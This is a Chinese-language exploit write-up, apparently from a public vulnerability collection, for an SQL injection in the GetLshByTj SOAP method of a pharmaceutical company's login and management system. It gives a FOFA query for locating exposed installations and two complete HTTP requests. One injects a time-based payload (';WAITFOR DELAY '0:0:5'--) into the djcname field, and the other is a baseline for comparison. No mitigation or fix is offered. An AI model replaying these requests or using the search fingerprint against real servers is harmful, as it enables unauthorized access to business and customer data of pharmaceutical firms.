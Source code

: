 # 医药公司登录系统GetLshByTj存在SQL注入漏洞

# 一、漏洞简介
医药公司登录系统是一个全面且高效的管理工具，涵盖了销售管理、客户档案管理、药品字典管理等多个核心模块。该系统支持前台零售、批发销售、销售审核等多种销售方式，并具备完善的客户档案管理功能，包括客户的基本信息、经营权限等。此外，系统还提供国药标准药品字典库云下载功能，便于用户快速获取药品信息。整体而言，医药公司登录系统通过自动化的管理和数据分析，帮助医药企业优化业务流程，提升市场竞争力。

# 二、影响版本
+ 医药公司登录系统

# 三、资产测绘
+ fofa`body="ResourceScripts/zh-cn-Login.aspx.js"`

![1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a.png](./img/YJr-f544KP8rikO0/1718300393150-bc4c042c-e623-4c35-bd2f-b019efc0686a-267631.png)

# 四、漏洞复现
```java
POST /WebService.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetLshByTj
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 454

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetLshByTj>
         <!--type: string-->
         <tem:tjstr>gero et</tem:tjstr>
         <!--type: string-->
         <tem:djcname>onoras imperio';WAITFOR DELAY '0:0:5'--</tem:djcname>
         <!--type: boolean-->
         <tem:redonly>true</tem:redonly>
      </tem:GetLshByTj>
   </soapenv:Body>
</soapenv:Envelope>
```

![1718692030456-63586960-4583-46f0-826d-701762b755e0.png](./img/YJr-f544KP8rikO0/1718692030456-63586960-4583-46f0-826d-701762b755e0-777595.png)

```java
POST /WebService.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: _sid=tp_1700221267_fbf3ff64ee297b12
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetLshByTj
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 478

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetLshByTj>
         <!--type: string-->
         <tem:tjstr>gero et</tem:tjstr>
         <!--type: string-->
         <tem:djcname>onoras imperio</tem:djcname>
         <!--type: boolean-->
         <tem:redonly>true</tem:redonly>
      </tem:GetLshByTj>
   </soapenv:Body>
</soapenv:Envelope>
```

![1718692048095-bbd1d173-eb00-4cd1-9589-c26ed768f0fd.png](./img/YJr-f544KP8rikO0/1718692048095-bbd1d173-eb00-4cd1-9589-c26ed768f0fd-644411.png)



> 更新: 2024-06-23 23:40:49  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ffth09eureon16c6>